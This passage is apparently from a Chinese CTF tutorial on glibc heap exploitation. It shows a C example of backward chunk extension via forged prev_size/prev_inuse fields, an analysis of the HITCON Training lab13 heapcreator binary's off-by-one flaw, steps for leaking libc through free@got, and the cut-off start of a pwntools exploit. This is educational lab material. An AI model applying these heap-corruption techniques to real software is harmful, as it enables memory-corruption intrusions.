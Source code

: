 在 malloc(0x50) 对 extend 区域重新占位后，其中 0x10 的 fastbin 块依然可以正常的分配和释放，此时已经构成 overlapping，通过对 overlapping 的进行操作可以实现 fastbin attack。

## 基本示例5 通过 extend 前向 overlapping

通过修改 pre_inuse和prev_szie域实现合并前面的块

```c++
int main(void)
{
    void *ptr1,*ptr2,*ptr3,*ptr4;
    ptr1=malloc(128);//smallbin1
    ptr2=malloc(0x10);//fastbin1
    ptr3=malloc(0x10);//fastbin2
    ptr4=malloc(128);//smallbin2
    malloc(0x10);//防止与top合并
    free(ptr1);
    *(int *)((long long)ptr4-0x8)=0x90;//修改pre_inuse域
    *(int *)((long long)ptr4-0x10)=0xd0;//修改pre_size域
    free(ptr4);//unlink进行前向extend
    malloc(0x150);//占位块
}
```

前向 extend 利用了 smallbin 的 unlink 机制，通过修改 pre_size 域可以跨越多个 chunk 进行合并实现 overlapping。

## HITCON Trainging lab13

### 基本功能

自定义堆分配器，每个堆有两个成员：大小与内容的指针

主要功能：

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会存在 off by one 的漏洞。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

1. 利用 off by one 漏洞覆盖下一个 chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

大致过程：
创建两个堆，通过off-by-one修改下一个堆块的大小，然后将其释放，使chunk2的size和conten进入fastbin，然后再申请一个较大的堆，由于篡改了chunk2记录size的堆块大小，所以再次申请时，新的chunk2的记录size和content的堆块会对调，进而通过输入溢出修改新的chunk2记录其content的地址，从而泄露 free@got 的地址，进而泄露libc

### exploit

```python
    from pwn import *
    context(arch='amd64',os='linux')
    context.log_level = "DEBUG"

    p = process('./heapcreator')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)


    def Create(size,content):
        p.recvuntil("Your choice :")
        p.send('1')
        p.recvuntil("Size of Heap : ")
        p.send(str(size))
        p.recvuntil("Content of heap:")
```